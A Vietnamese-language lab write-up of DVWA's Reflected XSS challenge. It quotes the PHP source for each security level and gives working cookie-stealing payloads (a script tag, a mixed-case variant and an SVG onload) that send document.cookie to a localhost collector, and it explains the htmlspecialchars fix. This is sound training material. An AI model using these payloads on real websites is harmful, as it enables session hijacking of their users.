


# __XSS Reflected__

_Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server. Reflected XSS is also sometimes referred to as Non-Persistent or Type-I XSS (the attack is carried out through a single request / response cycle)._

---

## __Objective__

One way or another, steal the cookie of a logged in user.

## __Security Level: Low__

Source code

```php title="vulnerabilities/xss_r/source/low.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

### __Analysis__

Ta thấy rằng challenge này dùng phương thức GET để get `name`mình nhập vào. Hơn nữa, nó sẽ say hello với mình và hiển thị trên trang web và đặt nó vào bên trong thẻ <pre\>. Do vậy ta dễ dàng chèn thẻ <script\> vào và lấy cookie user.



> Payload: `<script>document.location='http://localhost:8000/?abc='+document.cookie</script>`

---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/xss_r/source/medium.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?> 

```

### __Analysis__

Với challenge này, họ chặn việc thêm thẻ <script\> vào chương trình. Vì họ filter cứng thẻ <script\> nên ta có thể bypass bằng cách viết hoa/thường lộn xộn của thể <script\> để bypass challenge này.

> Payload: `<sCriPt>document.location='http://localhost:8000/?abc='+document.cookie</sCrIpT>`
 
### __Exploition__

Như đã phân tích trên, ta dùng thẻ <svg\> để thực hiện tấn công.

---

## __Security Level: High__

Source code

```php title="vulnerabilities/xss_r/source/high.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?> 
```

### __Analysis__

Lần này họ cũng filter thẻ <script\> và không phân biệt chữ hoa/chữ thường khi nhập vào. Xem hình giải thích của ChatGPT bên dưới



> Payload: `<svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>`

### __Exploition__

Như đã phân tích trên, ta cũng dùng thẻ <svg\> để thực hiện tấn công.

---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/xss_r/source/impossible.php"
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

### __Analysis__

Ta sẽ dùng hàm `htmlspecialchars()` để biến các kí tự đặc biệt ở đầu vào thành kí tự giả giúp không thực thi script ta truyền vào.

---

## __What we learned__

## __Some problems__

Thực chất, ta chỉ cần dùng payload `<svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>` là có thể bypass full cấp độ ở challenge này nhưng tôi muốn đề cập theo hướng mà bên dvwa họ hướng đến việc chúng ta sẽ làm. 

- Ví dụ ở cấp độ Medium: Họ sẽ hướng chúng ta đến việc filter chữ hoa/chữ thường. Vì con người mình nhìn vào thì xem là như nhau như về mặt bản chất thì mã ASCII của 2 chữ là khác nhau dẫn đến thể hiện khác nhau. Nhưng chắc chắn sẽ thực thi cùng 1 mục đích.

## __More Information__

- https://owasp.org/www-community/attacks/xss/
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- https://en.wikipedia.org/wiki/Cross-site_scripting
- http://www.cgisecurity.com/xss-faq.html
- http://www.scriptalert1.com/
